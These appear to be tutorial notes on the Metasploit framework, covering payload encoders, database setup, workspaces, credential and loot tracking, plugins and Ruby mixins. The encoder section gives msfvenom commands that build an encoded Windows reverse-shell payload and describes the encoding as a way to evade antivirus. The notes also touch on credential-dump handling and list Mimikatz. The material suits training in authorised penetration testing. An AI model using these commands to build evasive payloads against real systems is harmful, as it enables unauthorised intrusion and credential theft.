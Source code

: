 ## Encoders

Payloads assist with making payloads compatible with different processor architecture and antivirus evasion, it plays the role of changing the payload to run on different operating systems and architectures, they are also needed to remove hexadecimal opcodes known as bad characters.

### Selecting an Encoder

Generating encoded payload before 2015:
```shell-session
$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

After 2015 (without encoding):
```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

After 2015 (with encoding):
```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai [-i <number>] # i is for number of iterations
```

If we want to use encoders from within msfconsole we can use the `show encoders`.

Metasploit has a tool that we can use with API key to analyze our payloads, it requires free registrations on VirusTotal:
```shell-session
$ msf-virustotal -k <API key> -f <file>
```

## Databases

Msfconsole has a built-in support for the PostgreSQL database, which helps to keep track of results and organize results, we can also import and export the results in conjunction with third-party tools, it is also possible to use the existing findings from database entries to configure exploit module parameters.

### Setting up the Database

Make sure PostgreSQL is running:
```shell-session
$ sudo service postgresql status
```

Start the PostgreSQL server:
```shell-session
$ sudo systemctl start postgresql
```

Initialize the MSF database:
```shell-session
$ sudo msfdb init
```

If we get an error we can try `apt update` to update Metasploit.

Checking the status of the database:
```shell-session
$ sudo msfdb status
```

Connect to the initiated database:
```shell-session
$ sudo msfdb run
```

In case we already have database configured and can't change the password:
```shell-session
$ msfdb reinit
$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
$ sudo service postgresql restart
$ msfconsole -q
```

Get overview of interacting with the database:
```shell-session
msf6 > help database

msf6 > db_status
```

### Using the Database

#### Workspaces

Workspaces are like folders to segregate the different scan results, host, and extracted information by IP, subnet, network, or domain.

View current workspace list, use `-a` to add, `-d` to delete:
```shell-session
msf6 > workspace
```

### Importing Scan results

Importing scan result, `.xml` file is preferred:
```shell-session
msf6 > db_import Target.xml
```

Check the presence of the host's information, `hosts` can be used too:
```shell-session
msf6 > services
```

### Using Nmap Inside MSFconsole
```shell-session
msf6 > db_nmap -sV -sS <ip address>
```

### Data Backup
```shell-session
msf6 > db_export -f xml backup.xml
```

### Hosts

Host can be automatically added, for example with scans or plugins, they can also be manually added, and we can organize the format and structure of the table, add comments, change existing information, and more.

### Services

Acts the same as the host command but with services discovered.

### Credentials

With the `creds` command we can visualize the credentials gathered during the interaction with the target host, add new credentials, match existing credentials with port specifications, add descriptions, etc.

```shell-session
msf6 > creds -h
```

### Loot

The `loot` command offers at glance list of owned services and users, it refers to the hash dumps from different system types, namely hashes, passwd, shadow, and more.

```shell-session
msf6 > loot -h
```

## Plugins

Plugins can be commercial with community edition or developed by individuals, whose given permission to the creators of Metasploit to use their product.

With plugins everything is documented directly to the database, services and vulnerabilities are made available at-a-glance for the user, the [plugins](https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf/Plugin) work directly with the API and can be used to manipulate the entire framework, they can be useful for automation, adding new commands to the `msfconsole`, and extending the already powerful framework.

### Using Plugins

`/usr/share/metasploit-framework/plugins` is the default directory for plugins.

#### Example of loading a plugin
```shell-session
msf6 > load nessus

[*] Nessus Bridge for Metasploit
[*] Type nessus_help for a command listing
[*] Successfully loaded Plugin: Nessus


msf6 > nessus_help
```

### Installing new Plugins

To install new plugins we can simply copy the `.rb` files of the plugin to the plugins directory.

### Popular Plugins
|   |   |   |
|---|---|---|
|[nMap (pre-installed)](https://nmap.org)|[NexPose (pre-installed)](https://sectools.org/tool/nexpose/)|[Nessus (pre-installed)](https://www.tenable.com/products/nessus)|
|[Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)|[Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi)|[Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation)|
|[Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb)|[Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)|[Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)|

## Mixins

The Metasploit Framework is written in Ruby, an object-oriented programming language. Mixins offer flexibility to both the creator of the script and the user.

Mixins are classes that act as method for use by other classes without inheritance involved but rather inclusion. They are mainly used when we:

1. Want to provide a lot of optional features for a class.
2. Want to use one particular feature for a multitude of classes.

Most of the Ruby programming language revolves around Mixins as Modules. The concept of Mixins is implemented using the word `include`, to which we pass the name of the module as a `parameter`. We can read more about mixins [here](https://en.wikibooks.org/wiki/Metasploit/UsingMixins).